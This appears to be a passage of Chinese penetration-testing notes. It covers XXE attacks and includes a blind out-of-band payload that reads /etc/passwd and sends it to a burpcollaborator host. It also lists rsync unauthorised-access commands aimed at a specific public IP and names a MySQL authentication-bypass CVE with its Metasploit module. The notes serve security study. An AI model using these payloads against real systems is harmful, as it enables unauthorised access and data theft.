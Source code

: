 **高级玩法**

- **ssrf**/**内网探测,** 在实体定义里将uri请求改为本地的端口号, 如`<!ENTITY xxe SYSTEM "http://127.0.0.1:8080" >`, 可以写成py脚本批量扫描

- **无回显怎么玩?** dnslog, 或者用ceye.io的访问历史查询, 可以在无回显时获取数据, 比如下面就是在将`/etc/passwd`的内容拼在url请求里访问过去, 也可以获取

```
<?xml version="1.0" encoding="utf-8"?> 
  <!DOCTYPE abc [
  <!ELEMENT name ANY >
  <!ENTITY % file SYSTEM "file:///etc/passwd">
  <!ENTITY % all "<!ENTITY xxe SYSTEM 'http://pkdhs206k7r60vakmse4k41oqfw5ku.burpcollaborator.net/?%file;'>">
  %all; 
  ]>
```
ref:[ dnslog注入](https://www.cnblogs.com/-qing-/p/10623583.html)

- **rce远程代码执行**

  `expect://[command]`
  
  需要在安装[expect扩展](https://www.php.net/manual/zh/wrappers.expect.php)的PHP环境上才可能运行成功,  没复现成功, 扎心. 不过我毕竟试了, 通过`pecl install expect` 命令试着安装结果提示, 那么可能rce的php版本就出来了:
  
  > pecl/expect requires PHP **(version >= 4.0.0, version <= 5.99.9**9),
  
  另外, 除了phpinfo之外, 这里: [PHP查看扩展是否开启的几种方法](https://blog.csdn.net/mengdc/article/details/78029315)

ref: [DTD 简介](http://www.w3school.com.cn/dtd/dtd_intro.asp)

[XML DOM Document 对象](http://www.w3school.com.cn/xmldom/dom_document.asp)

[PHP simplexml_load_string() 函数](http://www.w3school.com.cn/php/func_simplexml_load_string.asp)

[XXE(XML外部实体注入)漏洞](https://blog.csdn.net/qq_36119192/article/details/84993356)

[XML实体注入漏洞](https://www.cnblogs.com/xiaozi/p/5785165.html)

## rsync未授权访问 873端口

```[cmd]
rsync rsync://210.14.136.172:873/  /localpath -av
rsync [ip]::
rsync rsync://210.14.136.172:873
```
ref:	https://my.oschina.net/ccLlinux/blog/1859116

**影响范围**

> mysql CVE-2012-2122  msf-auxiliary/scanner/mysql/mysql_authbypass_hashdump
> All MariaDB and MySQL versions up to 
> 5.1.61, 
> 5.2.11, 
> 5.3.5, 
> *5.5.22* 
> 5.5.23	are	vulnerable.
